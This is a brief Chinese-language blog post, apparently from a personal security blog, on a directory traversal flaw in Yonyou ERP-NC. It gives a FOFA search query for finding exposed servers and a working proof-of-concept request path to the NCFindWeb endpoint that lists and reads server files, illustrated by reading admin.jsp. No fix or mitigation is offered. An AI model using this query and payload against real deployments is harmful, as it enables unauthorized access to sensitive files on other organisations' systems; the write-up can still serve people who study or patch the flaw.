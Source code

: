 # ⽤友ERP-NC ⽬录遍历漏洞


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8Bpoc.jpg)


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%8F%8Berp-nc-%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/  

